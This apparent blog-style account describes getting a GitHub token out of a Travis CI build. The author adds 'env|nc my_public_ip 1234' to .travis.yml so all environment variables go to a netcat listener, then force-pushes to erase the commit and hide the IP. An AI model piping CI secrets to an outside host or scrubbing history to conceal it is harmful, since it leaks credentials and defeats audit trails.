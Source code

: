 ```sh
$ echo $GH_TOKEN | base64
```

but with a password. But I can't use the password in the command,
because anyone can see the command, decrypt its output
and get the token.

So I started to think about sending the token over the internet, to me.
Luckly I have some experience with port forwarding, so I could just open
a port in the router and direct it to the magic command: netcat

```sh
$ nc --help
nc: invalid option -- '-'
nc -h for help
```

I had used this command for file transfer, it's literally just `cat`
over the network.

The only problem is that my public ip will be visible in the logs,
but luckly I don't have any other open ports so from a security
perspective that's mostly safe.

The process of running a command consists of editing the `.travis.yml` file on
the repository which has access to the token. I just add the following lines:

```yml
before_script:
- env|nc my_public_ip 1234
```

I put the command in the `before_script` section hoping that it will be
executed as soon as possible.

I choose to send the entire output of `env`, which includes all the environment
variables, because why not.

Then, on the listening end:

```sh
$ nc -l -p 1234 | tee /tmp/secret
```

I listen to port 1234 and use the tee command to redirect the output to a file
while still being able to see it on the terminal.

After a few minutes, the token appears on my screen.

```sh
TRAVIS_BUILD_DIR=/home/travis/build/<...>
GH_TOKEN=<REDACTED>
_=/usr/bin/env
```

Success!

Now I can just remove the travis logs and the github commit to hide my IP.

```sh
### Remove last commit from git history:
$ git rebase -i HEAD~1
### d for drop commit
$ git push -f
```
